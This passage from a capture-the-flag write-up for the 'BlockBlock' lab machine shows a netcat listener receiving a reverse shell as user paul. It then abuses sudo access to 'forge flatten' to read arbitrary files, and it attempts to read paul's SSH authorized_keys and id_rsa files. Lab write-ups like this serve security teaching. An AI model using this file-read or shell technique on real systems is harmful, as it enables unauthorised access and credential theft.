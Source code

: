 At my listening `nc`, there’s a shell as paul:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.43 35350
[paul@blockblock shm]$ id
uid=1001(paul) gid=1001(paul) groups=1001(paul)

```

#### Via flatten

The `flatten` command is meant to:

> Flatten a source file and all of its imports into one file.

It takes a file as input, and has options for output path:

> `-o` *file*
> `--output` *file*
> The path to output the flattened contract. If not specified, the flattened contract will be output to stdout.

This sounds like file read / file write.

If I don’t use the output, I can basically read a file:

```

[keira@blockblock shm]$ sudo -u paul /home/paul/.foundry/bin/forge flatten /etc/hosts
[⠃] Compiling...
// /etc/hosts
127.0.0.1 localhost blockblock blockblock.htb
127.0.1.1 blockblock
[keira@blockblock shm]$ sudo -u paul /home/paul/.foundry/bin/forge flatten /home/paul/.bash_profile
[⠃] Compiling...
// /home/paul/.bash_profile
#
# ~/.bash_profile
#

[[ -f ~/.bashrc ]] && . ~/.bashrc

```

There’s doesn’t seem to be an `authorized_keys` file or a `id_rsa` in `.ssh` for paul:

```

[keira@blockblock shm]$ sudo -u paul /home/paul/.foundry/bin/forge flatten /home/paul/.ssh/authorized_keys
Error: 
No such file or directory (os error 2)
[keira@blockblock shm]$ sudo -u paul /home/paul/.foundry/bin/forge flatten /home/paul/.ssh/id_rsa
Error: 
No such file or directory (os error 2)

```
